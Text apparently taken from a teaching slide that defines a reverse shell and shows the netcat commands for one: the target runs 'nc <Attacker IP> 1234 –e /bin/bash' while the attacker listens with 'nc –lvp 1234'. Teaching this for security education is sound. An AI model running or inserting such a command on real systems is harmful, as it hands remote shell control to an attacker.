

# What is reverse shell ?
A reverse shell or connect-back is a setup, where the attacker must first start the server on his machine, while the target machine will have to act as a client that connects to the server served by the attacker. After the successful connection, the attacker can gain access to the shell of the target computer.
Attacker
Server

Server Connects to Attacker on port 1234
 nc <Attacker IP> 1234 –e /bin/bash
 nc –lvp 1234